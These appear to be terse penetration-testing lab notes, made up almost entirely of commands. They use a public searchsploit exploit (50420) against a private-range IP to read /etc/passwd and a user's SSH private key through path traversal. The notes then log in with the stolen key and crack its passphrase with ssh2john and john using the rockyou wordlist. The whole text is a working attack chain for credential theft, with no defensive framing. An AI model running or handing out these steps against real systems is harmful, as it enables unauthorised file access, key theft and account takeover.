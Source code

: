 ```yaml
---
tags:duplicator,ssh,key,ssh2john,hash,crack
---
```

#searchsploit -x 50420

searchsploit -m 50420

python3 50420.py http://192.168.50.244 /etc/passwd
python3 50420.py http://192.168.50.244 /home/daniela/.ssh/id_rsa
ssh -i id_rsa daniela@192.168.50.244
ssh2john id_rsa > ssh.hash
john --wordlist=/usr/share/wordlists/rockyou.txt ssh.hash

